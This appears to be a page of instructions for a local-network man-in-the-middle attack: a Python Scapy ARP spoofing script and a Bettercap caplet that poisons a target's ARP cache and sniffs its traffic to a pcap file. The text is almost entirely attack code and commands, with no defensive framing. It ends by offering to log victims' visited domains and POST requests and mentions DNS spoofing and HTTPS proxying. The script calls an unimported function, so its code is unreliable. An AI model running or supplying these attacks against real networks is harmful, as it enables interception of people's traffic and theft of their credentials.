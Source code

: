 ## Option 1: Python Script with Scapy

### Requirements

* Run as **root**
* Works on Linux (Kali, Ubuntu, etc.)
* Install Scapy:

  ```bash
  pip install scapy
  ```

### Script: `arp_spoof.py`

```python
from scapy.all import ARP, Ether, send
import time
import sys
import signal

def spoof(target_ip, spoof_ip, interface):
    packet = ARP(op=2, pdst=target_ip, psrc=spoof_ip, hwdst="ff:ff:ff:ff:ff:ff")
    send(packet, iface=interface, verbose=False)

def restore(target_ip, router_ip, interface):
    target_mac = get_mac(target_ip)
    router_mac = get_mac(router_ip)
    send(ARP(op=2, pdst=target_ip, psrc=router_ip, hwdst=target_mac, hwsrc=router_mac), count=5)
    send(ARP(op=2, pdst=router_ip, psrc=target_ip, hwdst=router_mac, hwsrc=target_mac), count=5)

def get_mac(ip):
    ans, _ = sr(ARP(pdst=ip), timeout=2, retry=10, verbose=False)
    for s, r in ans:
        return r[Ether].src
    return None

def main():
    if len(sys.argv) != 4:
        print("Usage: sudo python3 arp_spoof.py <target_ip> <router_ip> <interface>")
        sys.exit(1)

    target_ip = sys.argv[1]
    router_ip = sys.argv[2]
    interface = sys.argv[3]

    print(f"[+] Spoofing {target_ip} pretending to be {router_ip}...")

    try:
        while True:
            spoof(target_ip, router_ip, interface)
            spoof(router_ip, target_ip, interface)
            time.sleep(2)
    except KeyboardInterrupt:
        print("[!] Detected CTRL+C! Restoring ARP tables...")
        restore(target_ip, router_ip, interface)

if __name__ == "__main__":
    main()
```

### Example usage:

```bash
sudo python3 arp_spoof.py 192.168.1.50 192.168.1.1 wlan0
```



## Option 2: Bettercap Caplet Script

Create a file named `spoof.cap`:

```bash
set arp.spoof.targets 192.168.1.50
set net.sniff.output /home/kali/logs.pcap
set net.sniff.verbose true
arp.spoof on
net.sniff on
```

### Run it with:

```bash
sudo bettercap -iface wlan0 -caplet spoof.cap
```

You can add modules like `dns.spoof`, `https.proxy`, etc., inside the caplet file.

---

## Additional features?

* Enables IP forwarding automatically?
* Logs visited domains and POST requests?
* Works across multiple targets?


